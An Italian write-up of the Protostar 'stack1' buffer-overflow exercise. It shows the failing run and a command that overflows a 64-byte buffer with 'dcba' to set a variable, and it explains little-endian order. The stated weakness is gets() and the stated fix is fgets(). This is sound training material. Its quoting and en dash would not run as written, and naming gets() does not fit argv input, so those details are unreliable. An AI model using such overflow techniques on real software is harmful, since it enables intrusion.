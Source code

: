 # Protostar_stack 1 - Buffer overflow

## Obiettivo della sfida
Impostare la variabile _modified_ al valore **0x61626364** a tempo di esecuzione

## Strategia di attacco
Mandiamo in escuzione il **stack1**
```bash
> cd /opt/protostar/bin
> ./stack1 abc
# stampa errore
Try again, you got 0x00000000
```
### Cosa fare
Riempire _buffer_ con 64 caratteri e alla fine appendere i 4 corrispondenti a 0x61626364 essi sono la **"abcd"**

## Come sfruttare le vulnerabilità
Proviamo ad eseguire
```bash
> /opt/protostar/bin/stack1 'python –c 'print "a" * 64 + "abcd"'' 
# stampa errore
Try again, you got 0x64636261
```
Anche se l'input è stato inserito correttamente appare a rovescio, questo avviene perchè l'architettura Intel è **little endian**!
### Istruzioni da eseguire
```bash
> /opt/protostar/bin/stack1 'python –c 'print "a" * 64 + "dcba"'' 
# sfida vinta
```
## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`
